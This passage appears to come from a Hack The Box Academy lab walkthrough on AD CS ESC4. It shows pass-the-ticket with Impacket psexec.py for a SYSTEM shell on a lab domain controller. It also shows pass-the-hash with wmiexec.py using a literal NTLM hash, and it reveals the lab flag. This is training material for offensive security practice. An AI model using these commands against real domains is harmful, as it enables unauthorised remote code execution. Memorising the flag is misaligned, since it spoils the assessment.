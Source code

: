 With the TGT for the `Administrator` user attained, students need to `pass-the-ticket` with `wmiexec.py` to gain remote code execution on `LAB-DC.lab.local`:

Code: shell

```shell
KRB5CCNAME=administrator.ccache psexec.py -k -no-pass LAB-DC.lab.local
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ KRB5CCNAME=administrator.ccache psexec.py -k -no-pass LAB-DC.lab.local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Requesting shares on LAB-DC.lab.local.....
[*] Found writable share ADMIN$
[*] Uploading file fDKSqGos.exe
[*] Opening SVCManager on LAB-DC.lab.local.....
[*] Creating service hKhQ on LAB-DC.lab.local.....
[*] Starting service hKhQ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.3772]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

When reading the contents of the file `C:\Users\molly\Desktop\flag.txt`, students will attain the flag `HTB{ESC4_MSPKI}`:

Code: shell

```shell
more C:\Users\molly\Desktop\flag.txt
```

```shell-session
C:\Windows\system32> more C:\Users\molly\Desktop\flag.txt

HTB{ESC4_MSPKI}
```

Alternatively, students can `pass-the-hash` `2b576acbe6bcfda7294d6bd18041b8fe` with `wmiexec.py` and exfiltrate the contents of the file `C:\Users\molly\Desktop\flag.txt` directly:

Code: shell

```shell
wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\molly\Desktop\flag.txt"
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\molly\Desktop\flag.txt"

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
HTB{ESC4_MSPKI}
```
